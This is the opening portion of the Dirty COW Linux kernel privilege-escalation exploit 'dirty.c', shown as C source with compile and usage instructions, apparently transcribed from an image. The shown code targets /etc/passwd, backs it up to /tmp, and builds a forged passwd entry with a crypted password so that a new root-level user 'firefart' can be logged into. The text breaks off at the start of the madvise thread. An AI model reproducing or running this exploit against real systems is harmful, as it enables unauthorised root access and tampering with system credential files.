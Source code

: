 ```clike=
//   gcc -pthread dirty.c -o dirty -lcrypt
//
// Then run the newly create binary by either doing:
//   "./dirty" or "./dirty my-new-password"
//
// Afterwards, you can either "su firefart" or "ssh firefart@..."
//
// DON'T FORGET TO RESTORE YOUR /etc/passwd AFTER RUNNING THE EXPLOIT!
//   mv /tmp/passwd.bak /etc/passwd
//
// Exploit adopted by Christian "FireFart" Mehlmauer
// https://firefart.at
//

#include <fcntl.h>
#include <pthread.h>
#include <string.h>
#include <stdio.h>
#include <stdint.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/wait.h>
#include <sys/ptrace.h>
#include <stdlib.h>
#include <unistd.h>
#include <crypt.h>

const char *filename = "/etc/passwd";
const char *backup_filename = "/tmp/passwd.bak";
const char *salt = "firefart";

int f;
void *map;
pid_t pid;
pthread_t pth;
struct stat st;

struct Userinfo {
   char *username;
   char *hash;
   int user_id;
   int group_id;
   char *info;
   char *home_dir;
   char *shell;
};

char *generate_password_hash(char *plaintext_pw) {
  return crypt(plaintext_pw, salt);
}

char *generate_passwd_line(struct Userinfo u) {
  const char *format = "%s:%s:%d:%d:%s:%s:%s\n";
  int size = snprintf(NULL, 0, format, u.username, u.hash,
    u.user_id, u.group_id, u.info, u.home_dir, u.shell);
  char *ret = malloc(size + 1);
  sprintf(ret, format, u.username, u.hash, u.user_id,
    u.group_id, u.info, u.home_dir, u.shell);
  return ret;
}

void *madviseThread(void *arg) {
```